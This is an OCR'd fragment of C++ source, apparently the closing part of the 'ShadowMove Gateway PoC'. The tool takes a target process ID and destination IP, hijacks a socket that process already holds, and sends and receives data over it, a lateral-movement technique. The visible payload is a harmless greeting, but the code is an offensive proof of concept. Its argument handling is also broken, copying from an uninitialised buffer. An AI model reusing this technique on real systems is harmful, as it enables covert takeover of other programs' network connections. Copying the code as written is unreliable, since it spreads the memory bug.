 ```cpp

					}

					free(needle);
				}

			}
			free(objectNameInfo);

		}
	}

	return 0;
}


int main(int argc, char** argv) {
	WORD wVersionRequested;
	WSADATA wsaData;
	DWORD dwProcessId;
	LPSTR dstIP = NULL;
	SOCKET targetSocket;
	char buff[255] = { 0 };

	printf("\t\t\t-=[ ShadowMove Gateway PoC ]=-\n\n");

	// smgateway.exe [PID] [IP dst]
	/* It's just a PoC, we do not validate the args. But at least check if number of args is right X) */
	if (argc != 3) {
		printf("[!] Error: syntax is %s [PID] [IP dst]\n", argv[0]);
		exit(-1);
	}
	dwProcessId = strtoul(argv[1], NULL, 10);
	dstIP = (LPSTR)malloc(strlen(argv[2]) * (char)+1);
	memcpy(dstIP, argv[2], strlen(dstIP));


	// Classic
	wVersionRequested = MAKEWORD(2, 2);
	WSAStartup(wVersionRequested, &wsaData);

	targetSocket = findTargetSocket(dwProcessId, dstIP);
	send(targetSocket, "hello from shadowmove and reused socket!\n", strlen("hello from shadowmove and reused socket!\n"), 0);
	recv(targetSocket, buff, 255, 0);
	printf("\n[*] Message from target to shadowmove:\n\n %s\n", buff);
	return 0;
}
```
